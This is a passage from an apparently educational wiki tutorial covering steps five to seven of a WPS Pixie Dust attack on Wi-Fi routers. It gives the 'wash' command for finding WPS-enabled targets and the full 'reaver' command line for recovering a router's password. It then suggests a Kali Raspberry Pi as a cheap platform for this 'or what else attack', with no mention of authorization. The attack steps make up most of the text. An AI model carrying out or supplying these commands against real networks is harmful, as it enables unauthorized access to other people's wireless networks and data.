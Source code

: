 
## Step 5 - Find a Target

The easiest way to find a target with WPS enabled is

```
wash -i {monitor-interface}
```
![](https://gitlab.dclabra.fi/wiki/uploads/upload_cd1edebd4284517c4c0e1ed3ca6b2431.png)


Gather the BSSID and channel # for the router you want to attack.

## Step 6 - Launch the Attack

Once you have all the information, simply type in the following command:
```
reaver -i {monitor interface} -b {BSSID of router} -c {router channel} -vvv -K 1 -f
```
![](https://gitlab.dclabra.fi/wiki/uploads/upload_1dc7eedbf237296490d5022851906650.png)

## Step 7 - Jesh!

There's the password! 

![](https://gitlab.dclabra.fi/wiki/uploads/upload_b93d6f9e211f126e8aa6a93dfa9df142.png)

## HOX!
I'll do this last case using Raspi, so if you're looking for a cheap, handy platform to get started working with the pixie dust attack or what else attack, check out Kali Linux Raspberry Pi.



